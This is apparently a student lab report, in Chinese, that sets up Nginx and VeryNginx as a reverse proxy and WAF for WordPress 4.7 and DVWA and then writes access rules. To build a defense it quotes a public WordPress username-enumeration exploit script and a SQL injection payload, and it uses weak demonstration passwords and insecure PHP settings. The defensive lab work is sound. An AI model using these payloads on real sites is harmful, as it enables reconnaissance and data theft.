# 第五章：Web服务器

## 实验问题

* 在一台主机（虚拟机）上同时配置[Nginx](http://nginx.org/)和[VeryNginx](https://github.com/alexazhou/VeryNginx) 
  * VeryNginx作为本次实验的Web App的反向代理服务器和WAF
  * PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务
* 使用[Wordpress](https://wordpress.org/)搭建的站点对外提供访问的地址为： http://wp.sec.cuc.edu.cn
* 使用[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)搭建的站点对外提供访问的地址为： http://dvwa.sec.cuc.edu.cn
* 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**
* [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**
* 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，热修复[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
* 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护
* VeryNginx的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**
* 通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则实现： 
  * 限制DVWA站点的单IP访问速率为每秒请求数 < 50
  * 限制Wordpress站点的单IP访问速率为每秒请求数 < 20
  * 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**
  * 禁止curl访问

## 实验环境

- nginx
- verynginx
- WordPress 4.7
- DVWA

## 实验解答

1. **环境搭建**

   1. 首先修改宿主机的`hosts`文件

      ```
      192.168.109.132 vn.sec.cuc.edu.cn
      192.168.109.132 wp.sec.cuc.edu.cn
      192.168.109.132 dvwa.sec.cuc.edu.cn
      ```

   2. 安装VeryNginx

      ```bash
      # 克隆VeryNginx仓库
      git clone https://github.com/alexazhou/VeryNginx.git
      ```

      安装所缺少的库

      ```bash
      # pcre
      sudo apt update 
      sudo apt install libpcre3 libpcre3-dev
      # penssl library
      sudo apt install libssl-dev
      # make
      sudo apt install make
      # gcc 
      sudo apt install gcc
      # zlib
      sudo apt install zlib1g-dev
      ```

      进入VeryNginx目录下安装

      ```bash
      cd VeryNginx
      sudo python3 install.py install
      ```

      打开配置文件

      ```bash
      sudo vim /opt/verynginx/openresty/nginx/conf/nginx.conf
      ```

      修改以下内容

      ```bash
      # 用户名
      user  www-data;
      
      # 监听端口
      server {
              listen 192.168.109.132:80;
              
              #this line shoud be include in every server block
              include /opt/verynginx/verynginx/nginx_conf/in_server_block.conf;
      
              location = / {
                  root   html;
                  index  index.html index.htm;
              }
          }
      ```

      安装完成后，访问`192.168.109.132:8080/verynginx/index.html` 进入后台管理页面

      

   3. 安装Nginx

      首先安装`php`及其相关组件

      ```bash
      sudo apt install php-fpm php-mysql php-curl php-gd php-intl php-mbstring php-soap php-xml php-xmlrpc php-zip
      ```

      安装`mysql`

      ```bash
      sudo apt install mysql-server
      ```

      安装Nginx

      ```bash
      sudo apt install nginx
      ```

      修改`Nginx`的相关配置文件

      ```bash
      sudo vim /etc/nginx/sites-enabled/default
      ```

      修改内容如下

      ```bash
      server {
              listen 192.168.109.1322:8080 default_server;
              listen [::]:80 default_server;
      
              root /var/www/html;
      
              index index.html index.htm index.nginx-debian.html index.php;
      
              server_name _;
      
              location / {
                     
                      try_files $uri $uri/ =404;
              }
      
      
              location ~ \.php$ {
                      include snippets/fastcgi-php.conf;
             
                      fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
      
              }
      
              location ~ /\.ht {
                      deny all;
              }
      }
      ```

   4. 安装Wordpress

      首先下载并解压缩

      ```bash
      # 下载安装包
      sudo wget https://wordpress.org/wordpress-4.7.zip
      
      # 解压
      sudo apt install p7zip-full
      7z x wordpress-4.7.zip
      
      # 将wp-config-sample更名为wp-config
      mv wp-config-sample wp-config
      ```

      将解压后的wordpress移至指定路径

      ```bash
      sudo mkdir /var/www/html/wp.sec.cuc.edu.cn
      sudo cp -a wordpress/. /var/www/html/wp.sec.cuc.edu.cn
      ```

      为wordpress建立数据库

      ```mysql
      # 建库
      CREATE DATABASE wordpress DEFAULT CHARACTER SET utf8 COLLATE utf8_unicode_ci;
      # 新建用户(为了演示方便使用了弱口令)
      create user 'deng'@'localhost' identified by '123456';
      # 授权
      grant all on wordpress.* to 'deng'@'localhost';
      ```

      使用命令

      ```bash
      curl -s https://api.wordpress.org/secret-key/1.1/salt/
      ```

      从 WordPress 密钥生成器中获取安全值 ，并将安全值写入`wp-config`文件

      修改`wp-config`文件

      ```bash
      sudo vim wp-config
      ```

      修改内容如下

      ```php
      define('DB_NAME', 'wordpress');
      
      /** MySQL database username */
      define('DB_USER', 'deng');
      
      /** MySQL database password */
      define('DB_PASSWORD', '123456');
      
      /** MySQL hostname */
      define('DB_HOST', 'localhost');
      
      /** Database Charset to use in creating database tables. */
      define('DB_CHARSET', 'utf8');
      
      /** The Database Collate type. Don't change this if in doubt. */
      define('DB_COLLATE', '');
      ```

      配置Nginx

      ```bash
      sudo vim /etc/nginx/sites-available/wp.sec.cuc.edu.cn
      ```

      配置文件如下

      ```bash
      server {
          listen 8888;
          server_name wp.sec.cuc.edu.cn  www.wp.sec.cuc.edu.cn;
          root /var/www/html/wp.sec.cuc.edu.cn;
      
          index index.html index.htm index.php;
      
          location ~ \.php$ {
              include snippets/fastcgi-php.conf;
              fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
           }
          location = /favicon.ico { log_not_found off; access_log off; }
          location = /robots.txt { log_not_found off; access_log off; allow all; }
          location ~* \.(css|gif|ico|jpeg|jpg|js|png)$ {
              expires max;
              log_not_found off;
          }
          location ~ /\.ht {
              deny all;
          }
           location / {
              #try_files $uri $uri/ =404;
              try_files $uri $uri/ /index.php$is_args$args;
          }
      
      }
      ```

      创建软连接

      ```bash
      sudo ln -s /etc/nginx/sites-available/wp.sec.cuc.edu.cn /etc/nginx/sites-enabled/
      sudo nginx -t
      systemctl restart nginx.service
      ```

      然后访问`http://192.168.109.132:8888/wp-admin/`即可进入控制台

      

   5. DVWA搭建网站 

      首先下载dvwa

      ```bash
      git clone https://github.com/digininja/DVWA.git
      ```

      将里面的内容复制到`/var/www/html/dvwa.sec.cuc.edu.cn`中 ,将`config.inc.php.dist`改名为`config.inc.php`

       修改`/etc/php/7.4/fpm/php.ini` 

      ```bash
      sudo vim /etc/php/7.4/fpm/php.ini 
      ```

      修改其中的配置

      ```php
      allow_url_include: On
      ```
      并且根据默认配置创建数据库

      ```php
      $_DVWA[ 'db_database' ] = 'dvwa';
      $_DVWA[ 'db_user' ] = 'dvwa';
      $_DVWA[ 'db_password' ] = 'p@ssw0rd';
      ```

      ```mysql
      CREATE DATABASE dvwa DEFAULT CHARACTER SET utf8 COLLATE utf8_unicode_ci;
      CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';
      GRANT ALL ON dvwa.* TO 'dvwa'@'localhost';
      ```

      重启php

      ```bash
      systemctl restart php7.4-fpm.service
      ```

      给文件授权

      ```bash
      sudo chown -R www-data.www-data /var/www/html/dvwa.sec.cuc.edu.cn
      ```

      同样也要配置Nginx

      ```bash
      sudo vim /etc/nginx/sites-available/dvwa.sec.cuc.edu.cn
      ```

      配置文件如下

      ```php
      server {
          listen 8081 default_server;
          listen [::]:8080 default_server;
      
          root /var/www/html/dvwa.sec.cuc.edu.cn;
          index index.php index.html index.htm index.nginx-debian.html;
          server_name dvwa.sec.cuc.edu.cn;
      
          location / {
              #try_files $uri $uri/ =404;
              try_files $uri $uri/ /index.php$is_args$args;
          }
      
          location ~ \.php$ {
              include snippets/fastcgi-php.conf;
              fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
          }
      
          location ~ /\.ht {
              deny all;
          }
      }
      ```

      创建软连接

      ```bash
      sudo ln -s /etc/nginx/sites-available/dvwa.sec.cuc.edu.cn /etc/nginx/sites-enabled/
      sudo nginx -t
      systemctl restart nginx.service
      ```

      访问`http://dvwa.sec.cuc.edu.cn:8081`，登录后即可进入

      

2. **问题解答**

   1. 使用VeryNginx反向代理Wordpress,DVWA

      * matcher

        

      * Proxy Pass 

        

      配置完成后就可以通过`http://wp.sec.cuc.edu.cn`访问`Wordpress`和`http://dvwa.sec.cuc.edu.cn`访问`dvwa`。

      

   2. 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**

      * Match

        

      * Response 

        

      * Filter 

        

      

   3. [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**

      * Matcher

        

      * Response

        

      * Filter

        

      

   4. 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，热修复[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

      ```php
      #!usr/bin/php
      <?php
      
      #Author: Mateus a.k.a Dctor
      #fb: fb.com/hatbashbr/
      #E-mail: dctoralves@protonmail.ch
      #Site: https://mateuslino.tk 
      header ('Content-type: text/html; charset=UTF-8');
      
      
      $url= "http://localhost/";
      $payload="wp-json/wp/v2/users/";
      $urli = file_get_contents($url.$payload);
      $json = json_decode($urli, true);
      if($json){
      	echo "*-----------------------------*\n";
      foreach($json as $users){
      	echo "[*] ID :  |" .$users['id']     ."|\n";
      	echo "[*] Name: |" .$users['name']   ."|\n";
      	echo "[*] User :|" .$users['slug']   ."|\n";
      	echo "\n";
      }echo "*-----------------------------*";} 
      else{echo "[*] No user";}
      
      
      ?>
      ```

      根据代码可知，要想进行攻击就要访问`http://wp.sec.cuc.edu.cn/wp-josn/wp/v2/users`，所以在`Verynginx`中进行拦截即可

      * Matcher

        

      * Response

        

      * Filter

        

      访问`http://wp.sec.cuc.edu.cn/wp-json/wp/v2/users`

      

   5. 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护

      进入dvwa后台，在`DVWA Security`中将安全等级更改为`LOW`，然后进入`SQL Injection`进行`SQL`注入，提交`' union select 1 , database(); -- a`。

      

      * Matcher

        

      * Response

        

      * Filter

        

      

   6. VeryNginx的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**

      与第三个问题类似

      * Matcher

        

      * Filter

        

